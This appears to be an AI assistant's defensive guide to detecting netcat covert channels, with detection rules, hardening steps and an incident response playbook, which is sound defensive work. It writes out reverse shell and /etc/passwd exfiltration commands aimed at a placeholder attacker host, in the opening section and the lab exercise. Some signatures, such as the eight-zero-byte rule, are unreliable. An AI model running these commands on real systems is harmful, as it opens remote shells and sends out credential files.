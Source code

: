 # Detecting and defending against covert communications

### **1. Understanding Netcat’s Covert Use Cases**  
Netcat (`nc`) is a versatile networking tool often abused by adversaries for:  
- **Reverse shells**: `nc -e /bin/sh <attacker_IP> <port>`  
- **File exfiltration**: `nc -w 3 <attacker_IP> <port> < /etc/passwd`  
- **Port scanning**: `nc -zv <target_IP> 1-1000`  
- **C2 Relays**: Chaining netcat instances to pivot through networks.  

---

### **2. Detection Strategies**  
#### **A. Network-Based Detection**  
##### **a. Unusual Port Activity**  
- Netcat often uses uncommon ports (e.g., 4444, 31337) or masquerades as HTTP/HTTPS (ports 80/443) with non-standard protocols.  
- **Example**: Use `tshark` (Wireshark CLI) to flag traffic on suspicious ports:  
  ```bash
  tshark -r traffic.pcap -Y "tcp.port == 4444 && !(http || tls)"  
  ```  

##### **b. Payload Analysis**  
- Netcat traffic lacks typical protocol headers (e.g., HTTP/SMTP). Use **Bro/Zeek** to detect raw TCP/UDP sessions:  
  ```bro
  event connection_state_remove(c: connection) {
    if (c$id$resp_p == 4444 && c$history == "SrA") {  # SrA = SYN, SYN-ACK, ACK
      NOTICE([$note=Covert_Channel,
              $msg=fmt("Suspicious raw TCP session to %s", c$id$resp_h)]);
    }
  }
  ```  

##### **c. Suricata/Snort Signatures**  
Create custom rules to detect netcat patterns:  
```suricata  
alert tcp any any -> any any (msg:"Netcat Reverse Shell Detected"; content:"|00 00 00 00 00 00 00 00|"; depth:8; sid:1000001;)  
```  
*(Note: The byte sequence `00 00 00 00 00 00 00 00` is common in netcat raw TCP sessions.)*  

---

#### **B. Host-Based Detection**  
##### **a. Process Monitoring**  
- Netcat processes (`nc`, `ncat`, `netcat`) are short-lived. Use **Sysmon** (Windows) or **auditd** (Linux) to log process creation:  
  **Sysmon Configuration (Windows)**:  
  ```xml  
  <RuleGroup name="Netcat Detection">  
    <ProcessCreate onmatch="include">  
      <CommandLine condition="contains">nc</CommandLine>  
      <CommandLine condition="contains">ncat</CommandLine>  
    </ProcessCreate>  
  </RuleGroup>  
  ```  

  **Linux Auditd Rule**:  
  ```bash  
  auditctl -a always,exit -F arch=b64 -S execve -F exe=/usr/bin/nc -k netcat_usage  
  ```  

##### **b. Open Network Connections**  
- Use `netstat`/`lsof` to identify unexpected connections:  
  ```bash  
  # Linux:  
  lsof -i -P -n | grep 'nc\|netcat'  

  # Windows:  
  netstat -ano | findstr /i "ESTABLISHED" | findstr ":4444"  
  ```  

##### **c. Persistence Mechanisms**  
Check for netcat in startup scripts or cron jobs:  
```bash  
# Linux:  
grep -r "nc" /etc/cron* /var/spool/cron  

# Windows:  
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /s | findstr /i "nc"  
```  

---

#### **C. Behavioral Indicators**  
- **Unusual Outbound Connections**: A non-browser process (e.g., `svchost.exe`) connecting to external IPs on high ports.  
- **Data Exfiltration Patterns**: Large volumes of data sent via raw TCP/UDP (e.g., 100MB from a user’s workstation).  
- **EDR Alerts**: Tools like CrowdStrike or Carbon Black flagging `cmd.exe` spawning `nc.exe`.  

---

### **3. Defensive Countermeasures**  
#### **A. Network Hardening**  
- **Egress Filtering**: Block outbound traffic on non-essential ports (e.g., only allow 80/443/53).  
- **Proxy All Traffic**: Force HTTP/S through a proxy (e.g., Squid) to inspect raw TCP/UDP.  
- **Network Segmentation**: Isolate critical systems to limit lateral movement.  

#### **B. Host Hardening**  
- **Application Whitelisting**: Block `nc`, `ncat`, and `netcat` via AppLocker (Windows) or `rpm -e netcat` (Linux).  
- **Least Privilege**: Ensure users can’t execute arbitrary binaries (e.g., `nc` in `/tmp`).  

#### **C. Deception**  
- **Honeypots**: Deploy fake servers on common netcat ports (e.g., 4444) to trigger alerts.  
  ```bash  
  # Honeypot listener:  
  nc -lvp 4444  
  ```  

---

### **4. Incident Response Playbook**  
**Scenario**: Netcat reverse shell detected on a workstation.  
1. **Contain**:  
   - Isolate the host from the network (disable NIC via `netsh interface set interface "Ethernet" disable`).  
2. **Investigate**:  
   - Capture process memory with `dumpmem` or `Volatility`:  
     ```bash  
     volatility -f memory.dump --profile=Win10x64 netscan  
     ```  
   - Check for `nc` in `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.  
3. **Eradicate**:  
   - Terminate the netcat process: `taskkill /IM nc.exe /F`.  
   - Remove persistence entries.  
4. **Hunt**:  
   - Search SIEM logs for other hosts connecting to the attacker’s IP.  

---

### **5. Advanced Detection: Encrypted Netcat (ncat with SSL)**  
Adversaries often wrap netcat in SSL to evade detection:  
```bash  
ncat --ssl <attacker_IP> 443  
```  
**Detection**:  
- Use JA3/S hashes to fingerprint SSL/TLS clients (ncat uses OpenSSL libraries):  
  ```suricata  
  alert tls any any -> any any (msg:"Suspicious JA3 Hash"; ja3.hash; content:"a0e9f5d64349fb13191bc781f81f42e1"; sid:1000002;)  
  ```  

---

### **6. Lab Exercise**  
1. **Simulate a Netcat Attack**:  
   - On Kali: `nc -lvp 4444`  
   - On Victim: `nc <kali_IP> 4444 -e /bin/bash`  
2. **Detect with Zeek**:  
   - Analyze `conn.log` for raw TCP sessions.  
3. **Write a Custom Suricata Rule**:  
   - Trigger an alert when `nc` connects to port 4444.  

---

### **Key Takeaways**  
- Covert tools like netcat leave traces in **process logs**, **network metadata**, and **behavioral patterns**.  
- Combine **network signatures**, **host-based telemetry**, and **SSL fingerprinting** for robust detection.  
- Use **deception** and **egress filtering** to disrupt adversaries.  

Let me know if you want to dive deeper into specific tactics (e.g., DNS tunneling, ICMP covert channels)! 🔍
